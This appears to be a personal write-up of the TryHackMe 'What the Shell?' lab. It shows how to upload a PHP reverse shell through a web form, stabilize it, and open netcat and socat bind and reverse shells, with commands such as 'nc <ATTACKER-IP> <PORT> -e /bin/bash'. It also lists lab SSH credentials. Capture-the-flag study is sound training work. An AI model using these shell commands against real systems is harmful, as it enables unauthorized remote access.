 # TRYHACKME : What the Shell?
***NOTE: Documented this incase I'll be using the same method to other ctf challenges.***

## Linux Shell Sandbox
> Start the target linux machine from **Task 14** and set up your ovpn if you're using local server.

> ## Webshell
> Go to `/usr/share/webshells/php`.
> Get a copy of the file `php-reverse-shell.php`, then rename it into `rshell.php`.
>
> Open the file. Then edit the `$ip` to be your tun0 IP. You can change the `$port` or leave it as it is, which is `1234`.
>
> Open **browser** and input the http of the **target machine**.
>
> Browse the `rshell.php` and submit it. Then proceed into `uploads/` directory. Don't click `rshell.php` yet.
>
> Then into your **terminal**, open **netcat** listener: `nc -lvnp 1234`
>
> Back to your browser, and concatenate beside `uploads/` this: `rshell.php?cmd=nc <TUN0 IP> 1234 -e /bin/bash`.
>
> Go back to the terminal, and you can now access the reverse shell.

> ### Stabilize Netcat
> *Credits to [YCZHU](https://medium.com/@zycc2727/tryhackme-what-the-shell-61b54eda78e6)*
>> In the reverse shell:
```
> python3 -c 'import pty;pty.spawn("/bin/bash")' // try python, python2, and python3 in order
> export TERM=xterm
// hit `ctrl + z` to bg terminal
> stty raw -echo; fg
[1] + continued nc -lvnp 1234
```

> ## Experiment Bind & Reverse Netcat Shells with SSH 
> Let's now proceed connecting through SSH with the given credentials:
> 
> `Username:shell Password:TryH4ckM3!`
> ```
> ssh shell@<TARGET-IP>
> ```
> ## Bind Shell
> `Process: TARGET MACHINE = LISTENER + EXECUTE BASH <-- ATTACKER MACHINE = CONNECTOR`
> 
> Based on Task 8, instead of `nc -lvnp <PORT> -e /bin/bash` which is stated to be widely vulnerable for Linux, we'll be using instead a lengthy command `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.
>
>> ### NETCAT
>> #### Target Machine:
>> ```
>> shell@linux-shell-practice:~$ whoami
>> shell
>> shell@linux-shell-practice:~$ mkfifo /tmp/f; nc -lvnp <TARGET-PORT> < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f
>> listening on [any] <TARGET-PORT> ...
>> connect to <TARGET-IP> from (UNKNOWN) <ATTACKER-IP> <ATTACKER-PORT>
>>```
>> #### Attacker Machine:
>> ```
>> $ nc <TARGET-IP> <TARGET-PORT>
>> whoami
>> shell
>> pwd
>> /home/shell
>> ```
>> 
>> ### SOCAT (unencrypted)
>> #### Target Machine:
>> ```
>> shell@linux-shell-practice:~$ whoami
>> shell
>> shell@linux-shell-practice:~$ socat TCP-L:<TARGET-IP> EXEC:"bash -li"
>> ```
>> #### Attacker Machine:
>> ```
>> $ whoami
>> local
>> $ socat TCP:<TARGET-IP>:<TARGET-PORT> -
>> whoami
>> shell
>> ```

> ## Reverse Shell
> `Process: ATTACKER MACHINE = LISTENER <-- TARGET MACHINE = CONNECTOR + EXECUTE BASH`
> 
>> ### NETCAT
>> #### Attacker Machine:
>> ```
>> $ whoami
>> local
>> $ nc -lvnp <ATTACKER-PORT>
>> listening on [any] <ATTACKER-PORT> ...
>> // after executing Target Machine
>> connect to <ATTACKER-IP> from (UNKNOWN) <TARGET-IP> <TARGET-PORT>
>> whoami
>> shell
>> ```
>> #### Target Machine:
>> ```
>> shell@linux-shell-practice:~$ whoami
>> shell
>> shell@linux-shell-practice:~$ nc <ATTACKER-IP> <ATTACKER-PORT> -e /bin/bash
>> 
>> ```
>> 
>> ### SOCAT (unencrypted)
>> #### Attacker Machine:
>> ```
>> $ whoami
>> local
>> $ socat TCP-L:<port> -
>> // after Target Machine Execution
>> whoami
>> shell
>> ```
>> #### Target Machine:
>> ```
>> shell@linux-shell-practice:~$ whoami
>> shell
>> shell@linux-shell-practice:~$ socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
>> ```
>
